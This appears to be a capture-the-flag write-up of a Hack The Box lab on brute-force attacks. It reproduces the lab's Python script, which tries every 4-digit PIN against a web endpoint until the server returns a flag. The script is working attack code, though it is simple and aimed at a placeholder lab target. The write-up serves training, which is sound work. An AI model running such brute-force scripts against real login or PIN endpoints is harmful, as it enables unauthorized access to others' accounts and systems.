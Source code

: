 # Brute Force Attacks

After successfully brute-forcing the PIN, what is the full flag the script returns?

This simple lab challenges us to to a simple brute force attack to a web application that requires a PIN for a special access.

To solve this we can you the script provided by the HTB:

{% code overflow="wrap" %}
```python
import requests

ip = "SERVER_IP"  # Change this to your instance IP address
port = SERVER_PORT       # Change this to your instance port number

# Try every possible 4-digit PIN (from 0000 to 9999)
for pin in range(10000):
    formatted_pin = f"{pin:04d}"  # Convert the number to a 4-digit string (e.g., 7 becomes "0007")
    print(f"Attempted PIN: {formatted_pin}")

    # Send the request to the server
    response = requests.get(f"http://{ip}:{port}/pin?pin={formatted_pin}")

    # Check if the server responds with success and the flag is found
    if response.ok and 'flag' in response.json():  # .ok means status code is 200 (success)
        print(f"Correct PIN found: {formatted_pin}")
        print(f"Flag: {response.json()['flag']}")
        break
```
{% endcode %}

Make sure to replace the IP e and PORT of your target machine.

Then just run the script and wait for the results:

```bash
python pin-solver.py
```

<figure><img src="../../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

After a while, the script eventually gets the PIN and we find our flag!
